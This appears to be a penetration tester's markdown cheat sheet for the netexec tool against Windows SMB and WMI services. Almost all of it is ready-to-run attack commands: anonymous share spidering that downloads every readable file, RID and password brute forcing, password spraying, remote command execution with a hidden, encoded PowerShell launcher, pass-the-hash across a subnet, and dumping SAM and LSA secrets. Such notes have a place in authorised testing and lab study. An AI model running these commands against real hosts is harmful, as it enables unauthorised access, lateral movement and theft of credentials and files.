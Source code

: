 ```yaml
---
tags:
  - smb
  - ldap
  - wmi
  - brute_forcing
---
```

# netexec

Enumerate services

## Capabilities

### SMB

```bash
# Null authentication
nxc smb $IP -u '' -p ''

# Anonymous authentication
nxc smb $IP -u 'a' -p ''

# Enumerate shares
nxc smb $IP -u 'a' -p '' --shares
nxc smb $IP -u 'a' -p '' --spider SHARE --depth 1

# Spider all shares, downloading all readable files
nxc smb $IP -u '' -p '' -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=.
# List all files with their respective shares
cat $IP.json | jq '. | map_values(keys)'

# Brute force usernames through RIDs
nxc smb $IP -u 'a' -p '' --rid-brute 10000

# Brute force discovered users
nxc smb $IP -u users.txt -p users.txt --continue-on-success

# Password spray
nxc smb $IP -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

### Credentialed commands

```bash
# Check credentials (default to smb)
nxc smb $IP -u username -p 'Password123!'

# Execute commands (default to wmi, then smb)
nxc wmi $IP -u username -p 'Password123!' -x whoami
nxc smb $IP -u username -p 'Password123!' -x whoami
nxc smb $IP -u username -p 'Password123!' -x 'powershell -nop -w hidden -noni -ep bypass -e JABjAGwAaQBlAG4AdAAgAD0AIABO...'
```

NOTE: Add `--local-auth` flag to check credentials against the local user database, as opposed to the domain

Check a NetNTLMv2 hash with the following commands

Example hash:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::
```

```bash
nxc smb 192.168.1.0/24 -u username -H 'NTHASH'
nxc smb 192.168.1.0/24 -u username -H 'LM:NT'
```

Applied to our example:

```bash
nxc smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
nxc smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'
```

#### Obtaining credentials

```bash
# Dump SAM (requires Domain Admin or Local Admin Privileges with --local-auth)
nxc smb $IP -u Administrator -p 'Password123!' --sam

# Dump LSA secrets (requires Domain Admin or Local Admin Privileges with --local-auth)
nxc smb $IP -u Administrator -p 'Password123!' --lsa
```
